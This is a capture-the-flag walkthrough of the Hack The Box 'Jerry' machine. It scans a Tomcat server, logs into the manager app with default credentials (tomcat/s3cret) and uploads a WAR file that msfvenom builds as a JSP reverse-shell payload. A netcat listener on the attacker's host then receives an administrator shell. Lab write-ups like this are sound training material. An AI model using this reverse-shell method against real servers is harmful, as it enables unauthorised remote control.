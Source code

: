 
# Machine Info




# Walkthrough

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
	- ┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds


2. Home page of the website:
	1. ![[Pasted image 20250221153014.png]]
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret 
	3. ![](Assets/Pasted%20image%2020250225223328.png)

4. Landing page after loggin in:
	   ![[Pasted image 20250221171429.png]]

5. The page seem to be allowing the user to upload .war file. 
	1. ![[Pasted image 20250221171547.png]]

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![[Pasted image 20250221171827.png]]

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
	![[Pasted image 20250221165413.png]]

9. The shell we got seem to have administrator authority (High authority).
	![[Pasted image 20250221165700.png]]

10. Then we found the flag in the flag directory in desktop of Administrator user.  
	

	![[Pasted image 20250221171038.png]]
	


